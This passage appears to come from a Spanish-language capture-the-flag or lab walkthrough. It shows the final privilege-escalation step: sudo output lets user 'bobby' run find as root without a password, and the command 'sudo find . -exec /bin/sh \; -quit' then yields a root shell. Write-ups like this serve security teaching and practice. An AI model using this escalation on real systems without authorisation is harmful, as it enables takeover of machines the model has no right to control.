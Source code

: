 Info:
```
Matching Defaults entries for bobby on 507ac954e9cf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bobby may run the following commands on 507ac954e9cf:
    (root) NOPASSWD: /usr/bin/find
```

Finalmente, desde `bobby` es posible ejecutar el binario `find` con privilegios de `root`, consiguiendo así la escalada final.

```bash
sudo find . -exec /bin/sh \; -quit
```

Info:
```
# whoami
root
#
```

Ya somos root!
